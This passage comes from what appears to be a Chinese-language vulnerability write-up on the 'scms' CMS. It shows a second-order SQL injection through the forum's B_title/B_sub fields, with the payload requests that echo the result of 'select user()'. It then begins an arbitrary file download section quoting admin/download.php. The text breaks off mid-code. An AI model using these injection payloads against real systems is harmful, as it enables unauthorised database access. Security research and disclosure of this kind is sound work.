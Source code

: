 ```php
$sql="select * from SL_bbs where B_sub=".$id." order by B_id asc";
```

 

而B_sub可控（在Insert的时候插入的），这样我们就能直接获取回显。

**漏洞演示：**

Payload1

```php
http://127.0.0.1/scms/bbs/bbs.php?action=add

B_title=',(select user()),'',1,666,1)%23&B_content=hello_admin&B_sort=1
```

![Payload1](https://y4er.com/img/uploads/20190509161886.jpg "payload1")

Payload2

获取帖子id
```http
http://127.0.0.1//scms/bbs/item.php?id=30
```
![获取帖子id](https://y4er.com/img/uploads/20190509163613.jpg "获取帖子id")
Payload3

```http
http://127.0.0.1//scms/bbs/item.php?action=reply&id=30

B_content=test
```

![Payload3](https://y4er.com/img/uploads/20190509167478.jpg "Payload3")

执行完成！最后我们就可以去访问我们的回复然后拿到回显。
```http
http://127.0.0.1/scms/bbs/item.php?id=666
```

这次id参数指向的是我们填的B_sub值

![拿到回显](https://y4er.com/img/uploads/20190509167158.jpg "拿到回显")
### 任意文件下载
漏洞文件出现在`admin/download.php`
```php
<?php
require '../conn/conn2.php';
require '../conn/function.php';

if ($_COOKIE["user"]=="" || $_COOKIE["pass"]==""){
    setcookie("user","");
    setcookie("pass","");
    setcookie("auth","");
    Header("Location:index.php");
    die();
}else{
    $sql="select * from SL_admin where A_login like '".filter_keyword($_COOKIE["user"])."' and A_pwd like '".filter_keyword($_COOKIE["pass"])."'";
    $result = mysqli_query($conn, $sql);
    $row = mysqli_fetch_assoc($result);
    if (mysqli_num_rows($result) > 0) {

    }else{
        setcookie("user","");
        setcookie("pass","");
        setcookie("auth","");
```